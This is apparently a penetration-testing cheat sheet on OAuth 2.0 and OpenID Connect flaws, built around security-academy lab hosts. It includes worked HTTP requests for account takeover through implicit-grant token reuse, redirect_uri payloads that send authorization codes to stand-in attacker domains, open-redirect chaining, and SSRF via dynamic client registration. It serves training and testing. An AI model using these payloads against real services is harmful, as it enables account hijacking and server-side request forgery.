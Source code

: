 # OAuth 2.0

<details>

<summary>Introduction</summary>

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

</details>

## <mark style="color:yellow;">Identifying OAuth authentication</mark>

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### <mark style="color:yellow;">Recon</mark>

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

## <mark style="color:yellow;">Vulnerabilities</mark>

### <mark style="color:yellow;">Improper implementation of the implicit grant type</mark>

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### <mark style="color:yellow;">Account hijacking via redirect\_uri</mark>

Replace redirect\_uri with a attacker controlled domain

```
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{% hint style="info" %}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{% endhint %}

**Flawed redirect\_uri validation**

```
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

```
https://server.net/post/next?path=https://attacker.com
```

2. Use this url as `redirect_uri`&#x20;

```
https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
```

{% hint style="success" %}
Tip: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{% endhint %}

### <mark style="color:yellow;">Flawed CSRF protection</mark>

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

## <mark style="color:yellow;">OpenID Connect</mark>

### <mark style="color:yellow;">Identifying OpenID Connect</mark> <a href="#identifying-openid-connect" id="identifying-openid-connect"></a>

Look for the mandatory `openid` scope

### <mark style="color:yellow;">Unprotected dynamic client registration</mark>

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "application_type": "web",
    "client_name": "My Application",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

```http
HTTP/2 201 Created
[...]

{[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`
